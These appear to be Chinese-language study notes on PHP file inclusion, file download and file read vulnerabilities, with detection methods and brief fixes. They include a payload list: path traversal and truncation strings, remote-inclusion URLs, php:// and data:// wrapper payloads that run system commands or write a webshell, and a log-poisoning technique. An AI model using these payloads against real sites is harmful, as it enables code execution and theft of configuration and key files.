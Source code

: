 ## 文件操作安全：

文件上传

文件包含（将文件以脚本执行）：
```
脚本（各种包含函数）：ASP，PHP，JSP，ASPX，Python，Javaweb
检测：白盒（代码审计），黑盒（漏扫工具，公开漏洞，手工看参数值及功能点）
类型：本地包含（无限制和有限制），远程包含（无限制和有限制）
利用：http，ftp，file，各种脚本支持协议
修复：固定后缀，固定文件，WAF产品
```

文件下载

文件读取



### 本地包含：
```
include.php?filename=1.txt
include.php?filename=../../../www.txt
%00截断：条件：magic_quotes_gpc=Off，php版本<5.3.4
filename=../../../www.txt%00
长度截断：条件：windows，点号长于256，Linux长于4096
长度截断示例：filename=1.txt/./././././././././././././././././……./././././
或者filename=1.txt...........................……......

远程包含：
filename=http://www.xxx.com/readme.txt
filename=http://www.xxx.com/readme.txt%20
filename=http://www.xxx.com/readme.txt%23
filename=http://www.xxx.com/readme.txt?

各种协议流玩法：
参考：https://www.cnblogs.com/endust/p/11804767.html
filename=php://filter/convert.base64-encode/resource=1.txt
filename=php://input
Post:<?php system('whoami')?>
<?PHP fputs(fopen('x.php','w'),'<?php @eval(phpinfo();)?>');?>
filename=file:///D:/phpstudy/PHPTutorial/WWW/1.txt
filename=data://text/plain,
<?php%20phpinfo();?>
```

本地文件包含的一个思路：

在没有上传文件功能的情况下

如果是白盒，也就是知道对方日志文件路径的时候

可以通过错误访问把恶意代码写到对方日志里

然后利用文件包含漏洞将日志作为代码执行

本地文件包含的特点是只能包含目标站点上的文件

因此如果不能上传文件，就只能考虑是否存在可以修改的文件

比如说日志



### 文件下载：

产生：任意语言代码下载功能函数

检测：白盒（代码审计），黑盒（漏扫工具，公开漏洞，手工看参数值及功能点-比如资源下载）

利用：常见文件（后台首页日志等可见文件），敏感文件（数据库配置文件，各种接口文件，密钥信息等文件）

修复：部署WAF产品，固定目录或过滤跨目录符号，目录权限设置或单独文件权限设置

文件读取：

产生：任意语言代码获取功能函数

检测：手工看参数值及功能点（资源获取）



### 判断：
文件被解析，则是文件包含漏洞

显示源代码，则是文件读取漏洞

提示文件下载，则是文件下载漏洞

关于目录：被操作的文件不一定与操作它的脚本文件在同一个目录

因此有时`xxx.php?filename=xxx.php`是无法成功的，可能此时其实是在pic之类的目录里面

因此需要确定要访问的文件实际存在的目录

比如说`xxx.php?filename=../../script/xxx.php`

很多时候文件下载等操作是通过POST方式传参的

多观察POST体，多用hackbar

